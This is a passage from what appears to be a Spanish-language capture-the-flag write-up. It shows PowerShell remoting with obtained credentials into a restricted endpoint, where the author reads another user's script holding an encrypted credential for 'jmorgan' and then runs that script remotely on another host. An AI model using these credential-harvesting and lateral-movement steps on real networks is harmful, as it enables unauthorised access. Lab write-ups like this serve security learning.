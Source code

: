 Al ver el contenido nos encontramos con una sorpresa.
```console
PS C:\uTILS> Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {type "C:\Users\imonks\Desktop\wm.
ps1"}
Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {type "C:\Users\imonks\Desktop\wm.ps1"}
$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'
$passwd = $securepasswd | ConvertTo-SecureString
$creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)
Invoke-Command -ScriptBlock {Get-Volume} -ComputerName Acute-PC01 -Credential $creds
```

Una credencial para el usuario `jmorgan` en el equipo `Acute-PC01`

Al intentar convertir la contraseña nos encontramos el siguiente error.
```console
PS C:\uTILS> $passwd = $securepasswd | ConvertTo-SecureString
$passwd = $securepasswd | ConvertTo-SecureString
ConvertTo-SecureString : Key not valid for use in specified state.
At line:1 char:27
+ $passwd = $securepasswd | ConvertTo-SecureString
+                           ~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidArgument: (:) [ConvertTo-SecureString], CryptographicExceptio 
   n
    + FullyQualifiedErrorId : ImportSecureString_InvalidArgument_CryptographicError,Microsoft.Powe 
   rShell.Commands.ConvertToSecureStringCommand
```

Una búsqueda en StackOverFlow nos revela lo siguiente.

> You have to create the password string on the same computer and with the same login that you will use to run it.

y

> `ConvertFrom-SecureString` takes a `Key` ( and `SecureKey`) parameter. You can specify the key to save the encrypted standard string and then use the key again in `ConvertTo-SecureString` to get back the secure string, irrespective of the user account.

Puede significar que la "key" con la que encripta la contraseña esté almacenada en algún sitio pero en el equipo `Acute-PC01` y no en el `atsserver` que es donde estamos ejecutando los comandos.

Nos confirma esta teoría el que podemos ejecutar el script y funciona.
```console
PS C:\uTILS> Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {C:\Users\imonks23:40:17 [68/4883]
Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {C:\Users\imonks\Desktop\wm.ps1}               
                                                                                                                                                  
                                                                                                                                                  
PSComputerName       : atsserver                                                                                                                  
RunspaceId           : 52a86278-f5e0-478a-bad6-558bbd42b23f                                                                                       
ObjectId             : {1}\\ACUTE-PC01\root/Microsoft/Windows/Storage/Providers_v2\WSP_Volume.Objec                                               
                       tId="{8ccfebca-48c0-11ec-9ffe-806e6f6e6963}:VO:\\?\Volume{0eed1261-0000-0000                                               
                       -0000-100000000000}\"                                                                                                      
PassThroughClass     :                                                                                                                            
PassThroughIds       :                                                                                                                            
```